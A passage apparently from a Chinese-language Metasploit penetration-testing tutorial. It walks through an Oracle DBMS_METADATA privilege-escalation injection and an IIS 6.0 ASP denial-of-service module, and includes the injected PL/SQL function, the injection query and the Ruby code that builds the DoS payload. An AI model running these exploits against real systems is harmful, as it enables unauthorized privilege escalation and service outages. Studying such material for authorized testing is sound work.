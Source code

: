 ```
msf auxiliary(dbms_metadata_get_xml) > set RHOST 192.168.56.1
msf auxiliary(dbms_metadata_get_xml) > set SQL YES
msf auxiliary(dbms_metadata_get_xml) > run 
```

模块成功执行后，用户权限将从`DB_USER`提升到`DB_ADMINISTRATOR`。

我们将要介绍的下一个模块与**拒绝服务（DOS）**攻击有关。我们将分析一个简单的 IIS 6.0 漏洞，允许攻击者通过发送包含超过 40000 个请求参数的 POST 请求来使服务器崩溃。我们将很快分析这个漏洞。该模块已在运行 IIS 6.0 的未打补丁的 Windows 2003 服务器上进行了测试。我们将使用的模块是`ms10_065_ii6_asp_dos:`

```
msf > use auxiliary/dos/windows/http/ms10_065_ii6_asp_dos
msf auxiliary(ms10_065_ii6_asp_dos) > show options
Module options (auxiliary/dos/windows/http/ms10_065_ii6_asp_dos):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOST yes The target address
RPORT 80 yes The target port
URI /page.asp yes URI to request
VHOST no The virtual host name to..
msf auxiliary(ms10_065_ii6_asp_dos) > set RHOST 192.168.56.1
RHOST => 192.168.56.1
msf auxiliary(ms10_065_ii6_asp_dos) > run
[*] Attacking http://192.168.56.1:80/page.asp 
```

一旦使用 run 命令执行模块，它将通过在端口 80 上发送 HTTP 请求，以 URI 为 page.asp 来攻击目标 IIS 服务器。模块的成功执行将导致 IIS 服务器完全拒绝服务。

## 它是如何工作的...

让我们快速看一下这两个漏洞。通过注入一个自定义的 PL/SQL 函数来利用 Oracle 数据库漏洞，该函数在 SYS 上下文中执行，并将用户“scott”的权限提升为管理员。

考虑以下示例函数：

```
CREATE OR REPLACE FUNCTION "SCOTT"."ATTACK_FUNC" return varchar2 authid current_user as pragma autonomous_transaction; BEGIN EXECUTE IMMEDIATE 'GRANT DBA TO SCOTT'; COMMIT; RETURN ''; END; /

```

现在将此函数注入到易受攻击的过程中将导致用户 scott 的权限提升。

```
SELECT SYS.DBMS_METADATA.GET_DDL('''||SCOTT.ATTACK_FUNC()||''','') FROM dual;

```

上述代码行解释了注入过程。对 Oracle 软件中漏洞的详细分析超出了本书的范围。

现在移动 DOS 攻击模块，它利用 IIS 6.0 服务器中的漏洞。攻击者发送一个包含超过 40000 个请求参数的 POST 请求，并以`application/x-www-form-urlencoded`编码类型发送。

以下是服务模块的一部分脚本：

```
while(1)
begin
connect
payload = "C=A&" * 40000
length = payload.size
sploit = "HEAD #{datastore['URI']} HTTP/1.1\r\n"
sploit << "Host: #{datastore['VHOST'] || rhost}\r\n"
sploit << "Connection:Close\r\n"
sploit << "Content-Type: application/x-www-form-urlencoded\r\n"
sploit << "Content-Length:#{length} \r\n\r\n"
sploit << payload
sock.put(sploit)
#print_status("DoS packet sent.")
disconnect
rescue Errno::ECONNRESET
```